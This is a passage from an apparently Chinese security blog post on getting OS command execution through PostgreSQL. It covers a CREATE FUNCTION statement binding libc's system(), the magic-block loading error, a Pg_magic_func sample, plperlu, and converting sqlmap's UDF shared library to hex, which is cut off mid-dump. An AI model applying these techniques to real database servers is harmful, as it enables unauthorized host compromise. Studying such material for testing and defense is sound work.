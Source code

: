 Bingo~  
  
### 2，命令执行  
  
这里大概有三种方式  
  
a）利用 libc 中的 system() 函数  
  
很多文章会让我们添加一个到libc库的自定义功能函数  
  
```  
CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT;  
```  
  
但是返回错误  
  
```  
Error : ERROR:  incompatible library "/lib64/libc.so.6": missing magic block  
HINT:  Extension libraries are required to use the PG_MODULE_MAGIC macro.  
```  
  
这是因为当PostgreSQL加载外部动态库的时候，会检查MAGIC DATA，如果没有这个函数（Pg_magic_func），PostgreSQL认为这个动态库不是PostgreSQL可以使用的动态库。具体逻辑请看 src/backend/utils/fmgr/dfmgr.c 中定义的 internal_load_library 函数源代码。  
  
这样一来系统自带的可利用的库默认我不再允许动态加载，所以此路不通（也许低版本走的通，但我手里这个不行）。  
  
给一个 pg_magic_func 代码样例：  
  
```  
extern PGDLLEXPORT const Pg_magic_struct * Pg_magic_func(void);  
const Pg_magic_struct *  
pg_magic_func(void)  
{  
static const Pg_magic_struct Pg_magic_data = PG_MODULE_MAGIC_DATA;  
return &Pg_magic_data;  
}  
```  
  
b）利用Perl/Python脚本语言功能  
  
在zone上看过一帖，http://zone.wooyun.org/content/1591，很纳闷为什么这样定义函数就可以执行系统命令，plperlu又是啥，经过资料的挖掘，发现是PostgreSQL自带的一种程序语言支持。  
  
具体可见这里（http://www.postgresql.org/docs/8.3/static/xplang.html）。  
  
大概意思就是PostgreSQL允许用除了SQL和C的其他语言来编写函数，但这个很悲剧啊，我的环境没有安装PostgreSQL的Python和Perl支持，待我弄个环境在来实现下过程。  
  
c）利用C语言自定义函数  
  
Perl、Python都能在PostgreSQL自定义了更不用说C了。这个在sqlmap的udf目录下有现成的，而且还是根据版本加了Pg_magic_func函数的，可以加载。。。牛鞭！  
  
```  
FengGou:8.4 $ pwd  
/Users/FengGou/sqlmap/udf/postgresql/linux/64/8.4  
FengGou:8.4 $ ls  
lib_postgresqludf_sys.so  
```  
  
将sqlmap的so文件转为16进制的代码，7F454C4602010100000000000000000003003E0001000000C00C0000000000004000000000000000A0170000000000000000000040003800050040001A00190001000000050000000000000000000000000000000000000000000000000000008413000000000000841300000000000000002000000000000100000006000000881300000000000088132000000000008813200000000000A802000000000000B00200000000000000002000000000000200000006000000B013000000000000B013200000000000B01... ...  
  